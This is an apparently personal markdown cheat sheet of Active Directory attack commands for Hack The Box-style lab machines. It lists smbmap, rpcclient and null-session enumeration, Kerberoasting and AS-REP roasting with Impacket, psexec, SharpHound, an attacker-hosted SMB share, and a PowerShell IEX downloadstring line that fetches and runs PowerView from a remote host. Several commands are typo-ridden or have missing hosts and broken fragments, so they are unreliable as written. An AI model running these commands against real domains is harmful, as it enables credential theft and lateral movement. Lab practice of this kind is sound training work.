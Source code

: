 # Active Directory

if you have kerberos, dns and ldap, its probably a windows domain controller

## using SMBMAP

```
smbmap -H 10.10.10.161
smbmap -R  -H 
smbmap -R  -H  -A Groups.xml -q
smbmap -d dom -u usm -p pass -H host
```

## Once we have a valid credential

`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs:`

`pxexec.py dom/usn:pwd@host`

when yu have a valid credential, you can run

`runas /netonly /user:active.htb\svc_tgs cmd`

on a windows cmdlien, and you'll have access to the remote one

once you run this, you can run bloodhound from your windows boxn from where you have authenticated as the domain user

`.\sharphound.exe -a all -d active.htb --domain-controller 10.10.10.100`

if you're doing sharphound from your windows machine, its worth changing the DNS to the DNS of the domain controller

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs:` this is called Kerberoasting ^^

General TIP: when you ping, if the TTL is above 128, usually some network infrastructure, if its b/w 64 and 128, its a windows box, if its 64 or below, its a Linux box

crackmapexec getting password policy

`crackmapexec smb 10.10.10.161 --pass-pol`

## Nulll auth

just pass -u '' -p '' everywhere

`GetNPUsers.py -dc-ip 10.10.10.161 htb.local/`

`rpcclient -U '' 10.10.10.161`

once in rpc, enumdomusers, queryusergroups, querygroup , queryuser

## SMB server on linux using impacket

`impacket-smbserver sharename $(pwd) -smb2support -user user -password pass`

now on the windows powershell,

```
$pass = convertto-securestring 'guest' -asplaintext -force
$cred = new-object system.management.automation.pscredential('guest', $pass)
new-psdrive -name kalidrive -psprovider filesystem -credential $cred -root \\10.10.14.77\kalishare
```

X:\\" ">

```
net use x: \\10.10.14.77\kalishare /user:guest guest
cmd /c "copy  X:\"
```

## Powerview

IEX(new-object net.webclient).downloadstring('[http://$IP/PowerView.ps1'\\](http://$ip/PowerView.ps1'/)) => this directly import powerview into source

## LDAPSEARCH

ldapsearch

## Group Managed Service Accounts - gMSA

can be used on multiple hosts, scheduled tasks

`gMSAs enable automatic password management across multiple computers using Kerberos KDC`
